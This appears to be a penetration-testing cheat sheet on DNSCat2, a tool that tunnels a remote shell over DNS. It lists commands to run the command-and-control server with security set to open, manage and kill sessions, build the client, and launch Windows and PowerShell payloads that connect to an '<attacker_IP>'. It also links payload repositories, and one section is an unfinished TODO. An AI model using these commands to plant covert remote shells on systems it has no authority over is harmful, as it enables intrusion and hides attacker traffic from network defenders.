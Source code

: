 # DNSCat2

## Shell Handler

```
$ sudo ./dnscat2.rb --dns server=<DNS_server_IP>,port=53

dnscat2> set security=open
```

```
dnscat2> session -i <session_ID>
```

```
dnscat2> kill <session_ID>
```

## Compile Payload

### Linux

```
$ cd dnscat2/client/ && make
```

### Windows

```
C:\> dnscat2-win32.exe --host <attacker_IP>
```

```
PS C:\> Start-Dnscat2 -Domain <domain>.<tld> -DNSServer <attacker_IP>
```

## Interactive Shell

TODO: Provide a usage example with dnscat2

```
command (<PLATFORM>) 1> help
```

---
## References

### Source Repositories

- [lukebaggett: DNSCat2 PowerShell Payload](https://github.com/lukebaggett/dnscat2-powershell)

- [avitex: Rust DNSCat](https://github.com/avitex/rust-dnscat)

### Pentestlab

- [Pentestlab Blog: Command and Control - DNS](https://pentestlab.blog/2017/09/06/command-and-control-dns/)
